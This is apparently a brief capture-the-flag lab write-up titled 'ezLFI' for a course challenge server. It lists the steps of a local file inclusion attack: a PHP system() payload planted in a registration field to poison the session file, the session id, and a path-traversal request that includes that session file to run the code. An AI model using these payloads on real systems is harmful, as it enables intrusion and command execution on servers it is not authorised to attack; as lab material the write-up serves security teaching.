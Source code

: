 # Lab0x03 Writeup

## ezLFI
1. https://edu-ctf.csie.org:10157/?action=register
post data: user=<?php system("ls /"); ?>

<?php eval('system(ls /);');

2. sessid = tdq3l7c0j4nmn0ovje4dbq5k46
3. finally https://edu-ctf.csie.org:10157/?action=module&m=../../../../var/lib/php/session/sess_tdq3l7c0j4nmn0ovje4dbq5k46